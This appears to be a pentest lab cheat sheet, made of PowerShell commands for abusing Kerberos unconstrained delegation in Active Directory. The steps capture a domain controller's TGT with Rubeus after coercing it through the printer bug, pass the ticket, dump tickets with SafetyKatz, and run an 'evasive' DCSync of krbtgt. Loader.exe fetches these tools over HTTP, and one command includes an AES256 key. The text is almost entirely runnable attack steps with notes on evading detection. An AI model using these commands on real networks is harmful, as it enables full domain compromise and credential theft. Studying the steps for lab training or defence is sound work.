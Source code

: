
### Unconstrained Delegation Coercion
Coarse/Force machine accounts to connect to a machine and capture their TGT

Use Rubeus on App server (`dcorp-appsrv`) to capture TGT of DC machine account
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:DCORP-DC$ /interval:5 /nowrap
```

Abuse printer bug to force the DC to connect to the App server
```powershell
Loader.exe -path .\MS-RPRN.exe -args \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```

Copy the base64 encoded TGT, remove extra spaces (if any) and use it on your attacking host
```powershell
.\Loader.exe -path .\Rubeus.exe -args ptt /ticket:<base64>
```

Perform DCsync thats OPSEC safe because it's the machine account
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

```powershell
.\Loader.exe -path .\Rubeus.exe -args asktgt /user:appadmin /aes256:68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


---
### Abusing Unconstrained Delegation
Discover computers with unconstrained delegation (PowerView + AD module)
```powershell
Get-DomainComputer -UnConstrained

Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

Compromise the server(s) where Unconstrained delegation is enabled.

Wait for a domain admin to connect to a service on `appsrv` then dump all of the tickets
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args sekurlsa::tickets /export 
```

Reuse the DA token with SafetyKatz
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

Copy the base64 encoded TGT, remove extra spaces (if any) and use it on your attacking host
```powershell
.\Loader.exe -path .\Rubeus.exe -args ptt /ticket:<base64>
```

Perform DCsync thats OPSEC safe because it's the machine account
```powershell
.\Loader.exe -path .\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
